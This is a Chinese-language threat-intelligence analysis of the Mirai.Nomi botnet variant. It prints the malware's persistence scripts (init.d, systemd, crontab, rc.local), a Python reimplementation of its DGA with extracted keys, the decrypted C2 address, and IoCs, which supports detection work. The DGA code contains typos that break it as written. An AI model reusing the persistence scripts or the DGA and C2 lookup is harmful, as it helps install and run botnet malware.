






# 使用 DGA 的僵尸网络 Mirai Nomi

# 概述

Mirai 家族作为 botnet 的常青树，存在众多变种，但极少出现使用 DGA 的 Mirai 变种，据我们观测，上一个使用 DGA（Domain Generation Algorithm）的 Mirai 变种出现于 2016 年。2024 年 3 月，我们捕获到了新的可疑 ELF 样本，通过分析得知是另一个使用 DGA 的 Mirai 变种，分析关联的历史样本，我们不仅发现了没有使用 DGA 的版本（2024.02），还发现了漏洞扫描器和远控样本（2024.01），这引起我们的极大兴趣。根据下载脚本中的版本信息，我们姑且将其命名为 `Mirai.Nomi`。

`Mirai.Nomi` 样本具有以下特点：

-   魔改 UPX 壳（修改 UPX 魔术头、异或原始载荷）
-   使用时间相关的 DGA 并加入验证机制
-   使用多个加密算法、哈希算法（AES、CHACHA20、MD5）

# 样本分析

最新 ELF 样本修改自 Mirai LZRD 变种，新增了持久化函数和域名生成函数，其他部分基本沿用原始代码。UPX 壳修改魔术头为 `0B 3E 2A AF`



解压缩每个 block 后，单字节异或 `0xD4`，可通过动态 dump 或者重新编译 UPX 源码的方式脱壳。



下文主要分析持久化函数和域名生成算法。

## 持久化

样本启动后会将自身复制到 `/var/tmp/nginx_kel`，分别通过 `dnsconfig`、`crontab`、`dnsconfigs.service` 和 `rc.local` 进行持久化，具体内容如下：

向 `/etc/init.d/dnsconfig`、`/etc/rc.d/init.d/dnsconfigs` 写入：

```bash
#!/bin/sh
### BEGIN INIT INFO
# Provides:          asd
# Required-Start:    $remote_fs $syslog
# Required-Stop:     $remote_fs $syslog
# Default-Start:     2 3 4 5
# Default-Stop:      0 1 6
# Short-Description: Start asd at boot time
# Description:       Enable service provided by daemon.
### END INIT INFO

# Change the following to the path of your program
ASD_PATH="/var/tmp/nginx_kel"

section_enabled() {
    $ASD_PATH initd &
    return 0
}

section_provider() {
    $ASD_PATH initd &
    return 1
}

start_instance() {
    $ASD_PATH initd &
}

start_service() {
    $ASD_PATH initd &
}

stop_service() {
    $ASD_PATH initd &
}
case "$1" in
    start)
        echo "Starting asd"
        # Start command for your program
        $ASD_PATH initd &
        ;;
    stop)
        echo "Stopping asd"
        # Stop command for your program
        pkill -f $ASD_PATH
        ;;
    restart)
        echo "Restarting asd"
        $ASD_PATH initd &
        ;;
    *)
        echo "Usage: $0 {start|stop|restart}"
        exit 1
        ;;
esac

exit 0
```

添加 `0 * * * * /var/tmp/nginx_kel crontab` 到 `/var/tmp/.recoverys` 并执行 `crontab /var/tmp/.recoverys` 命令

创建服务 `/etc/systemd/system/dnsconfigs.service` 并启动服务

```plain
[Unit]
Description=dnsconfigs Server Service
[Service]
Type=simple
Restart=always
RestartSec=60
User=root
ExecStart=/var/tmp/nginx_kel sv
[Install]
WantedBy=multi-user.target
```

添加 `/var/tmp/nginx_kel rclocal &` 到 `/etc/rc.d/rc.local`

## 域名生成算法

### 时间种子

基于时间的 DGA 一般需要获取当前时间，大多数情况下通过转换系统时间即可获取，但该变种另辟蹊径，使用 `Network Time Protocol(NTP)` 获取时间。



在样本中硬编码了多个公共的 `NTP` IP，获取 `NTP` 返回字段中的 `Reference Timestamp` 之后，会将时间戳与 `604800` 整除，这意味着时间种子的变化周期为 7 天，若获取失败，种子被赋值为 "9999"。

### 算法分析

最终生成的每个域名由两部分组成。

第一部分：时间种子经过 MD5 和 chacha20 算法变化后，选取最终的 16 进制字符串的一部分，长度固定为 10，用正则表达式表示为 `[a-f0-9]{10}`。

第二部分：从字符串表解密的顶级域名、DDNS 域名。

需要注意的是，该算法中的 CHACHA20 Key 为 16 Byte，常用的 pycryptodemo 不支持；在最后一次 MD5 中，使用的数据长度固定为 64，并非真实的数据长度，因此需要补 0。

生成算法如下：

```python
import datetime
import hashlib
import string
form chacha20 import chacha20_cipher

dt = datetime.datetime.timestamp(datetime.datetime.utcnow())
timeseed = str(int(dt)//604800)
tlds = [".dontargetme.nl", ".ru", ".nl", ".xyz", ".duckdns.org", ".chickenkiller.com", ".accesscam.org", ".casacam.net", ".ddnsfree.com", ".mooo.com", ".strangled.net", ".ignorelist.com", ".geek", ".oss", ".websersaiosnginxo.ru", ".session.oss", ".session.geek"]
sld = bytearray()
for i, c in enumerate(timeseed):
    if not c.isdigit():
        sld.append((5 * ord(c)-477)%26+ord('a'))
    else:
        sld.append(ord(c))
md5_hex = bytearray(hashlib.md5(sld).hexdigest().encode())
xx20data = bytearray()
sort_index = [31, 2, 5, 4, 0, 18, 26, 21, 29, 4, 2, 6]
for index in sort_index:
    xx20data.append(md5_hex[index])

xx20key = bytearray.fromhex("764D1ABCF84ED5673B85B46EFA044D2E")
xx20nonce = bytearray.fromhex("1F786E3950864D1EAAB82D42")
md5data = chacha20_cipher(xx20key, xx20nonce, xx20data, 12)
m5 = bytearray(hashlib.md5(md5+b"\x00"*(64-len(res))).hexdigest().encode())
sort_index1 = [11, 12, 15, 14, 10, 18, 16, 1, 9, 14]
sld = bytearray()
for index in sort_index1:
    sld.append(m5[index])
for tld in tlds:
    print(sld.decode()+tld)
```

以下是 `Thu 7 March 2024 00:00:00 UTC - Thu 14 March 2024 00:00:00 UTC` 时间段内生成的域名，从连接顺序来看，作者偏向于使用免费的 DDNS 域名或 OpenNic 域名，以降低成本。

```plain
1a1f31761f.dontargetme.nl
1a1f31761f.session.oss
1a1f31761f.session.geek
1a1f31761f.duckdns.org
1a1f31761f.geek
1a1f31761f.oss
1a1f31761f.chickenkiller.com
1a1f31761f.accesscam.org
1a1f31761f.casacam.net
1a1f31761f.ddnsfree.com
1a1f31761f.mooo.com
1a1f31761f.strangled.net
1a1f31761f.ignorelist.com
1a1f31761f.ru
1a1f31761f.nl
1a1f31761f.xyz
1a1f31761f.websersaiosnginxo.ru
```

### C2 解密及验证

大部分 DGA 生成的域名会用作 C2，但要获取该变种的最终 C2，仍有很长的路要走。

样本中硬编码了多个公共的 DNS 服务器，用于获取上述生成域名的 TXT 记录。  
  
如上图所示通过解析域名 `1a1f31761f.dontargetme.nl`，在 TXT 记录中获取到 16 进制字符串 `3519239A211D1808ED7DF5AD296F2856`，经过 `AES-256-CBC` 解密后，即可得到最终 C2`147.78.12.176`。

AES-Key(hex)：`7645565D1380763F5E33F2881C932D4A9F8D204444675540273C3D9E99590A1C`

AES-IV(hex)：`9C1D34765712D2803E4F569ABCEF1020`

为了进一步验证 C2 是否可用，作者添加了验证机制，首先根据之前生成的域名再次生成长度为 32 的校验码，然后连接上述 C2，接收数据进行验证。校验码生成函数与域名生成函数非常相似，同样使用了 CHACHA20 和 MD5 的组合编码数据：

```python
domain = b"1a1f31761f.dontargetme.nl"
check = chacha20_cipher(xx20key, xx20nonce, domain)
m5 = hashlib.md5(check+b"\x00"*(64-len(check))).hexdigest()
check = bytearray()
for i, c in enumerate(m5):
    if not c.isdigit():
        check.append((5 * ord(c) - 477) % 26 + ord('a'))
    else:
        check.append(ord(c))
print(check.decode())
```

经过上述计算，`1a1f31761f.dontargetme.nl` 的校验码为: `4ihsnicnc766x8nn5xih9c7138780xcn`

连接上述解密后的 C2，端口为 `24150`，尝试接收大小为 1023 数据，如图所示，返回中包含校验码，代表 C2 可用。  


## 下载脚本

大多数的 mirai 下载脚本仅包含简单下载、执行命令，而该变种在脚本中还加入了删除文件、杀死进程、验证执行和反馈的功能。

删除和杀死进程的功能猜测是为了更新样本、为持久化做准备的同时消灭竞争对手。文件名黑名单为 `arm mips mipsel good_main new_ nginx_kel`

验证逻辑为是否输出 "goodluck" 的字符串，若成功执行，通过 `wget` 请求 `http[://204.93.164.31:9528/notwork?name=nomi_${version}`，猜测为了统计安装数量，其中 `version` 参数可变 (eg: `ver134`)。

# DDoS 攻击

从我们的数据看当前 `Mirai.Nomi` 的攻击活动并不是很活跃。也许还处于发展阶段，具体攻击统计如下：  
[](https://blog.xlab.qianxin.com/content/images/2024/03/mirai.nomi.ddos.png)

# 联系我们

感兴趣的读者，可以在 [twitter](https://twitter.com/Xlab_qax?ref=blog.xlab.qianxin.com) 联系我们。

# IoC

## 域名

```plain
auth.postdarkness.shop
xza.goweqmcsa.xyz
axz.lionos.xyz
ml.lionos.xyz
wwea.goweqmcsa.xyz
```

## IP

```plain
156.96.155.238	United States|Pennsylvania|Clarks Summit	AS46664|VolumeDrive
38.6.178.140	United States|None|None	AS40065|CNSERVERS LLC
38.207.165.117	Canada|Ontario|Toronto	AS967|VMISS Inc.
204.93.164.31	United States|Illinois|Chicago	AS834|IPXO LLC
23.224.176.63	United States|California|Los Angeles	AS40065|CNSERVERS LLC
147.78.12.176	The Netherlands|Noord-Holland|Amsterdam	AS212238|Datacamp Limited
```

## Sample SHA1

```plain
5bdf567a32d1883b2a57277515bfa95d02f92664 mirai
49b48351aa4d2d893d7de8bb856ca1609a6b3434 mirai_nomi
1fb5ead77068bb5c9526dcbd2cd5c78f10c7b5ff mirai
824ef78f1dab6d936a097c8beedf440f32e2aae6 VenomRAT
bb00f0728f3aff52a144b109476e5b0caa66abca AVTECH-scanner
```
